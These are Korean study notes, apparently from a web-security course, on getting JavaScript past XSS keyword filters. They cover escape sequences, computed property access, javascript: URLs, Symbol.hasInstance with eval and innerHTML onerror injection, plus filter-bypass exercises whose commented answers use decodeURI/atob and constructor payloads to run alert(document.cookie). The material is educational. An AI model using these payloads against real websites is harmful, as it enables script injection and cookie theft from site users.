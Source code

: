 # 자바스크립트 함수 및 키워드 필터링
Unicode excape sequnece를 통한 우회
```javascript
var foo = "\u0063ookie";  // cookie
var bar = "cooki\x65";  // cookie
\u0061lert(document.cookie);  // alert(document.cookie)
```

Computed member access를 이용한 우회
```javascript
alert(document["\u0063ook" + "ie"]);  // alert(document.cookie)
window['al\x65rt'](document["\u0063ook" + "ie"]);  // alert(document.cookie)
```

템플릿 리터럴 사용
```javascript
var foo = "Hello";
var bar = "World";
var baz = `${foo},
${bar} ${1+1}.`; // "Hello,\nWorld 2."
```

RegExp 객체 사용
```javascript
var foo = /Hello World!/.source;  // "Hello World!"
var bar = /test !/ + [];  // "/test !/"
```

fromCharCode 함수 사용
```javascript
var foo = String.fromCharCode(72, 101, 108, 108, 111);  // "Hello"
```

내장 함수 및 객체 문자를 이용
```javascript
var baz = history.toString()[8] + // "H"
(history+[])[9] + // "i"
(URL+0)[12] + // "("
(URL+0)[13]; // ")" ==> "Hi()"
```

진수 변환을 이용한 모습
```javascript
var foo = 29234652..toString(36); // "hello"
var bar = 29234652 .toString(36); // "hello"
```

javascript 스키마를 이용한 우회
```javascript
location="javascript:alert\x28document.domain\x29;";
location.href="javascript:alert\u0028document.domain\u0029;";
location['href']="javascript:alert\050document.domain\051;";
```

hasInstance를 이용한 우회
```javascript
"alert\x28document.domain\x29"instanceof{[Symbol.hasInstance]:eval};
Array.prototype[Symbol.hasInstance]=eval;"alert\x28document.domain\x29"instanceof[];
```

innerHTML을 이용한 우회 예시
```javascript
document.body.innerHTML+="<img src=x: onerror=alert&#40;1&#41;>";
document.body.innerHTML+="<body src=x: onload=alert&#40;1&#41;>";
```

## 실습문제
```javascript
function XSSFilter(data){
  if(/alert|window|document/.test(data)){
    return false;
  }
  return true;
}
/*
\u0061lert(\u0064\u006F\u0063\u0075\u006D\u0065\u006E\u0074.cookie);
*/

function XSSFilter(data){
  if(/alert|window|document|eval|cookie|this|self|parent|top|opener|function|constructor|[\-+\\<>{}=]/i.test(data)){
    return false;
  }
  return true;
}
/*
decodeURI, atob와 constructor 속성을 함께 사용하면 원하는 임의의 코드를 실행
// %63%6F%6E%73%74%72%75%63%74%6F%72 -> constructor
// %61%6C%65%72%74%28%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%29 -> alert(document.cookie)
Boolean[decodeURI('%63%6F%6E%73%74%72%75%63%74%6F%72')](
      decodeURI('%61%6C%65%72%74%28%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%29'))();
Boolean[atob('Y29uc3RydWN0b3I')](atob('YWxlcnQoZG9jdW1lbnQuY29va2llKQ'))();
*/

function XSSFilter(data){
  if(/[()"'`]/.test(data)){
    return false;
  }
  return true;
}
/*

*/
```